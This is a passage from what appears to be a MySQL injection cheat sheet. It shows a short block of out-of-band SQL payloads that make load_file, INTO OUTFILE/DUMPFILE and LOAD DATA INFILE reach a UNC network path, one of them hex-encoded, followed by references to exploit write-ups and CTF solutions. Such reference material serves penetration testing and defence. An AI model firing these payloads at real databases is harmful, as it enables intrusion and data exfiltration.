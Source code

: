 ```sql
select load_file('\\\\error\\abc');
select load_file(0x5c5c5c5c6572726f725c5c616263);
select 'osanda' into dumpfile '\\\\error\\abc';
select 'osanda' into outfile '\\\\error\\abc';
load data infile '\\\\error\\abc' into table database.table_name;
```

## References

- [MySQL Out of Band Hacking - @OsandaMalith](https://www.exploit-db.com/docs/english/41273-mysql-out-of-band-hacking.pdf)
- [[Sqli] Extracting data without knowing columns names - Ahmed Sultan @0x4148](https://blog.redforce.io/sqli-extracting-data-without-knowing-columns-names/)
- [Help по MySql инъекциям - rdot.org](https://rdot.org/forum/showpost.php?p=114&postcount=1)
- [SQL Truncation Attack - Warlock](https://resources.infosecinstitute.com/sql-truncation-attack/)
- [HackerOne @ajxchapman 50m-ctf writeup - Alex Chapman @ajxchapman](https://hackerone.com/reports/508123)
- [SQL Wiki - netspi](https://sqlwiki.netspi.com/injectionTypes/errorBased)
- [ekoparty web_100 - 2016/10/26 - p4-team](https://github.com/p4-team/ctf/tree/master/2016-10-26-ekoparty/web_100)
- [Websec - MySQL - Roberto Salgado - May 29, 2013.](https://websec.ca/kb/sql_injection#MySQL_Default_Databases)
